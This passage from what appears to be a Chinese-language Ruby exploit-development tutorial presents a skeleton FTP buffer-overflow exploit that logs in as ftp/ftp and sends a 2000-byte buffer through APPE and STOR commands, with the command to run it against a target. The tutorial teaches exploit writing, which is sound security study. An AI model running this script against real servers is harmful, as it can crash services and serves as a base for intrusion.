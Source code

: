 # 模块0x5 | 开发功夫

# 模块0x5 | 开发功夫

## 骨架利用

拥有一个骨架利用是一个很好的事情，可以在利用过程中快速编辑和使用。

### 网络基础

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'

buffer = "A" * 2000

#--> Networking
host = ARGV[0]
port = ARGV[1] || 21

s = TCPSocket.open(host, port)
s.recv(1024)
puts "[+] Sending Username."
s.send("USER ftp\r\n", 0)
s.recv(1024)
puts "[+] Sending Password."
s.send("PASS ftp\r\n", 0)
s.recv(1024)
puts "[+] Sending Evil buffer..."
s.send("APPE " + buffer + "\r\n", 0)
total = s.send("STOR " + buffer + "\r\n", 0)
#--> Exploit Info
puts "[+] " + "Total exploit size: " + "#{total} bytes."
puts "[+] " + " Buffer length: " + "#{buffer.size} bytes."
puts "[+] Done"

s.close 
```

执行它

```
ruby ftp_exploit.rb [TARGET] [PORT] 
```

请注意，有些服务必须从中接收，有些则不需要。

### 文件基础

创建一个简单的利用文件
